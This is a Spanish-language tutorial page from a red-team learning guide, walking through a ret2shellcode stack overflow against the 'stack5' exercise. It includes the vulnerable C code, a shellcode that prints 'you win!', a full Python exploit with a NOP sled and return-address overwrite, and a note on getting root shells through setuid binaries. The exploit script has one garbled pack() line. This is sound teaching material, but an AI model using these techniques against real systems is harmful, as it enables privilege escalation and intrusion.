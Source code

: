 ```yaml
---
description: Ataque Smash the Stack con redirección de Flujo
---
```


# ATAQUE RET2SHELLCODE

### Análisis del programa vulnerable <a href="#analisis-del-programa-vulnerable-1" id="analisis-del-programa-vulnerable-1"></a>

### Stack 5

```c
        #include 

        int main() {
                int cookie;
                char buf[80];

                printf("buf: %08x cookie: %08x\n", &buf, &cookie);
                gets(buf);

                if (cookie == 0x000d0a00)
                        printf("you loose!\n");
        }
```

#### ¿Qué hace el programa? <a href="#que-hace-el-programa-1" id="que-hace-el-programa-1"></a>

El programa es idéntico al de stack4, pero se imprime un mensaje diferente.

#### Solución anterior: aprovechar mensaje existente <a href="#solucion-anterior-aprovechar-mensaje-existente" id="solucion-anterior-aprovechar-mensaje-existente"></a>

No es de utilidad usar la misma estrategia que en el exploit del stack4, dado que si logramos saltear la evaluación condicional, el mensaje que logramos imprimir no es el deseado.

```bash
user@abos:~$ python exploit.py | ./stack5
buf: bffff5b4 cookie: bffff604
==> you loose!
```

#### ¿Cuál es la dificultad principal? <a href="#cual-es-la-dificultad-principal-1" id="cual-es-la-dificultad-principal-1"></a>

¡Ya no podemos saltar al mensaje ganador! El mensaje ganador a imprimir ya no es parte del programa vulnerable.\
&#x20;Una opción entonces es crear un propio programa que imprima el mensaje ganador: nuestro shellcode.

### Ataque “Smash the stack” con inyección de código <a href="#ataque-smash-the-stack-con-inyeccion-de-codigo-1" id="ataque-smash-the-stack-con-inyeccion-de-codigo-1"></a>

Necesitamos imprimir un mensaje ganador que no está en el programa vulnerable. Si bien es posible pensar diferentes ataques para lograr imprimir el string deseado, es una buena excusa para planificar una estrategia de inyección de código.

La inyección de código malicioso en la pila y su posterior ejecución conforman una técnica clásica para explotar programas vulnerables que es necesario conocer aunque su utilización no sea tan simple en escenarios actuales. Es por ello que aún es necesario deshabilitar artificialmente las mitigaciones que impiden ejecución de código en la pila (X^W) y la aleatoriedad en las direcciones de memoria.

La estrategia de ataque involucra crear un programa o shellcode que imprima por salida estándar el mensaje ganador, inyectarlo en la pila y ejecutarlo.

#### Layout de la pila deseado: <a href="#layout-de-la-pila-deseado" id="layout-de-la-pila-deseado"></a>

![](<../../../.gitbook/assets/imagen (104).png>)

{% hint style="info" %}
La instrucción NOP (no operation) hace exactamente lo que parece: nada. Esto la hace muy útil para los exploits que utilizan shellcode ya que al encontrar un NOP la ejecución pasará a la siguiente instrucción. De esta manera, si colocamos un "tobogán" de NOPs antes de nuestro shellcode y apuntamos la dirección de retorno dentro de éste tobogán, la ejecución continuará hasta llegar a la primera instrucción de nuestro shellcode.

Esto nos da un margen de error de unos bytes a la hora de redireccionar el flujo pues la única diferencia es que se ejecutarán más o menos NOPs, deslizandose el EIP por ellos hasta llegar al Shellcode.

En lenguaje ensamblador (Intel x86), el NOP se representa como \x90.
{% endhint %}

En `buf` ya no va a ir basura sino el shellcode antecedido por varios NOPs. Aprovechamos `gets()` para copiar los NOPs y el shellcode como string en la pila en `buf` y sobreescribirmos la dirección de retorno para que apunte a los NOPs de `buf`.

*   Programamos el shellcode\
    &#x20;Nuestro shellcode es un programa simple creado en assembler que con una llamada al sistema imprime “you win!” por salida estándar. \
    \
    Podemos aprender a hacerlo en el [**artículo sobre shellcodes**](https://ajcruz15.gitbook.io/red-team/pwn-linux/teoria/syscall-y-shellcode).

    ```
    shellcode  = "\xeb\x16\x31\xc0\x59\x88\x41\x08\xb0\x04\x31\xdb\x43"
    shellcode += "\x31\xd2\xb2\x09\xcd\x80\xb0\x01\x4b\xcd\x80\xe8\xe5"
    shellcode += "\xff\xff\xff\x79\x6f\x75\x20\x77\x69\x6e\x21\x41"            
    ```
*   Averiguamos dirección de `buf` en la pila ejecutando el programa vulnerable

    ```
    user@abos:~$ gcc -m32 -no-pie -fno-stack-protector -ggdb 
    -mpreferred-stack-boundary=2 -z execstack -o stack5 stack5.c
       
    user@abos:~$ ./stack5
    buf: bffff5b4 cookie: bffff604
    ```
* Planificamos el overflow por entrada estándar, considerando el formato little endian:

![](<../../../.gitbook/assets/imagen (105).png>)

*   Armamos un archivo en Python para ingresar el input

    ```
       
    #! /usr/bin/env python
    """Uso: ./exploit.py | ./stack5 """
       
    import sys
    from struct import pack
       
    #shellcode, imprime you win!
    shellcode  = "\xeb\x16\x31\xc0\x59\x88\x41\x08\xb0\x04\x31\xdb\x43"
    shellcode += "\x31\xd2\xb2\x09\xcd\x80\xb0\x01\x4b\xcd\x80\xe8\xe5"
    shellcode += "\xff\xff\xff\x79\x6f\x75\x20\x77\x69\x6e\x21\x41" 
                   
    ret_addr = 0xbffff5b4                           #addr de buf
       
    exploit  = "\x90" * 20                          #nops iniciales buf
    exploit += shellcode                            #shellcode
    exploit += "A" * (80-20-len(shellcode))         #padding hasta fin de buf
    exploit += "BBBB"                               #lleno cookie
    exploit += "CCCC"                               #lleno ebp
    exploit += pack(", ret_addr)                 #defino return address
       
    sys.stdout.write(exploit)    
    ```
*   Ejecutamos el exploit

    ```
    user@abos:~$ ./exploit.py | ./stack5
    buf: bffff5b4 cookie: bffff604
    you win!
    ```

    Gráficamente logramos el siguiente resultado:

![](<../../../.gitbook/assets/imagen (106).png>)

Es interesante tener en cuenta que el shellcode utilizado realiza un syscall `write` para imprimir el mensaje y luego un syscall `exit` para finalizar el proceso exitosamente. A diferencia de lo que sucedía en el stack4 (ejercicio en el que la destrucción del layout de la pila provocaba una violación de segmento), en este caso por el modo en que fue construido el shellcode el programa finaliza sin errores.

#### Lograr privilegios de root <a href="#lograr-privilegios-de-root" id="lograr-privilegios-de-root"></a>

En escenarios reales el objetivo no será imprimir un mensaje ganador sino lograr privilegios de root para exponer archivos e información privada, manipular logs, etc.\
&#x20;Existen varias estrategias para lograr una shell con privilegios de root o directamente para escalar privilegios a partir de una shell, que exceden el objetivo de esta guía en este punto. Por ejemplo en un escenario en el que se ataca un binario compilado con setuid root, si se logra que el programa vulnerable realice una syscall execve y ejecute una shell con `execve("/bin/sh")` ésta será una root shell. Es por ello que en la compilación del binario ejecutable modificamos los permisos de la siguiente manera:

```bash
user@abos:~$ gcc -m32 -no-pie -fno-stack-protector -ggdb 
-mpreferred-stack-boundary=2 -z execstack -o abo abo.c
user@abos:~$ sudo chown root ./abo; sudo chmod u+s ./abo  ; root owner & setuid
user@abos:~$ ls -la
-rwsr-xr-x  1 root   user XXXX Jan 01 00:00 abo
```
